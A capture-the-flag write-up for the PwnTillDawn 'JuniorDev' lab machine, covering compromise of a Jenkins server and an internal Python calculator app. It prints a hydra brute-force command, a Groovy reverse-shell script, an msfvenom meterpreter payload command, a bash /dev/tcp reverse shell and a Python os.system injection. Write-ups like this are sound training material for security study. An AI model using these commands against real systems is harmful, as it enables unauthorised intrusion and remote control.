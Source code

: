 ```yaml
---
title: JuniorDev Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, jenkins, portfwd, python]
math: true
mermaid: true
image:
  src: ![image](https://user-images.githubusercontent.com/67085453/143765869-f4b70e8d-17d3-4e92-9311-e28dd167b4c9.png)
  width: 800
  height: 500
---
```


![image](https://user-images.githubusercontent.com/67085453/143765891-34e88ab8-1881-47a1-90de-e588c3eea925.png)<br>

**> Information Gathering**<br>
Started with the usual nmap scan and from the scan we can see active ports. port 22 (ssh) & port 30609 (jetty 9.4.27).<br>
![image](https://user-images.githubusercontent.com/67085453/143765662-e120b52a-a05e-4665-b2a1-55e4dacfe4d9.png)

<br>
Upon visiting the web service running on port _30609_, i found a login screen.<br>
![image](https://user-images.githubusercontent.com/67085453/143765631-f7e788fc-8e83-4b1c-a97b-a639e13632de.png)<br>


Since we dont have any credentials, the best option is to *bruteforce* the target web login. Below is the hydra command used<br>
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`<br>
![image](https://user-images.githubusercontent.com/67085453/143765717-ed681b4b-3abe-43cb-b3c7-609f419e7275.png)<br>

Hydra yield positive results. We have found the password for the admin user. The next step is to login on jetty webapp running on port 30609. *username == admin* & *password == matrix*<br>
![image](https://user-images.githubusercontent.com/67085453/143765743-22635b7b-a430-4f4a-889a-454bde37f372.png)<br>
     

The credentials worked we are logged in now.<br>
![image](https://user-images.githubusercontent.com/67085453/143765751-202149be-2d13-4ce7-b865-b7b839156884.png)<br>

After a short googling on how to abuse jenkins script console to rce we found a good post from <a href="https://github.com/gquere/pwn_jenkins">gquere</a>. With this information, we were able to build a script to test remote code execution on the target. <br>
![image](https://user-images.githubusercontent.com/67085453/143765761-0e7da699-8773-49fa-8df6-e511967f33a7.png)<br>


Now  that we can execute commands on the target, its time to spawn a reverse shell. Below is the script I used.
```shell
String host="10.66.67.114";  
int port=9001;  
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<br>
![image](https://user-images.githubusercontent.com/67085453/143765793-ff14889e-8cdb-4b2b-b144-003ab641c429.png)<br>


**> Post Exploitation**<br>
After i got a shell, post enumeration phase begins. I transfered linpeas to the target, changer permissions and executed linpeas. In linpeas output, i found a port binded to the _loopback address(127.0.0.1:8080)_.<br>
![image](https://user-images.githubusercontent.com/67085453/143765907-412f03af-7170-4dc5-b840-ee0835a53718.png)<br> 

Port 8080 is mostly used for web services. To confirm, i tried `wget` on the ort since `curl` is not found on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143765930-93ced860-08cc-4b92-827d-24a5ff158593.png)<br>

Reading the fetched `index.html` from port 8080 indicates that there is a web webapp running internally.<br>
![image](https://user-images.githubusercontent.com/67085453/143765946-d1c2a430-0af0-49ab-b1fd-83f18ddc019c.png)<br>

To access this internal web service, we have to port-forward port 8080 from the target to our attacking machine. To do this, i created a linux payload using `msfvenom`. <br>
``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=9002 -f elf -o 9002msf``<br>
![image](https://user-images.githubusercontent.com/67085453/143765952-d511e7e9-e049-4a7a-9360-38e69b2548d4.png)<br>

The next thing to do is to transfer the payload to the target and execute it while msfconsole is listerning fortrt incoming connections.<br>
![image](https://user-images.githubusercontent.com/67085453/143765957-aa29bf3e-872b-4760-b63b-ffedb1e21e22.png)<br>

When the payload is executed on the target, we should recieve a connection back on `msfconsole`. Once the connection is in, we can port-forward the target intertnal port `8080` to our attacking machine using the `portfwd`command in msfconsole<br>
`portfwd add -l 8080 -p 8080 -r 127.0.0.1`<br>
![image](https://user-images.githubusercontent.com/67085453/143765963-00518744-c295-44f9-820a-9db9a7dcfcbf.png)<br>

Now that we the target port `8080` connected back to our attacking machine, wehn visited, we found a python maths console.<br>
![image](https://user-images.githubusercontent.com/67085453/143765968-cf05e59b-727e-4377-ac76-ba25ed07ce10.png)<br>

Since it's a simple python maths calculator, we can easily bypasss the pythin functions and gain a remote code execution. To do this, we will use `__import__("os").system("")`<br>

We created a bash file with contains our bash reverse liner. a simple bash script, transfered the bash file to the target. 
```shell
#!/bin/bash
bash -c  'bash -i>&/dev/tcp/10.66.66.78/9002 0>&1'
```
<br>

Once our bash file is on the target, we can execute the bash file using the pythin calculator. We simply do this using the command
`__import__("os").system("/bin/bash /tmp/shell.sh")`<br>
![image](https://user-images.githubusercontent.com/67085453/143765976-251cd43b-7e6d-4852-895b-6b2ba81033c9.png)<br><br>


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
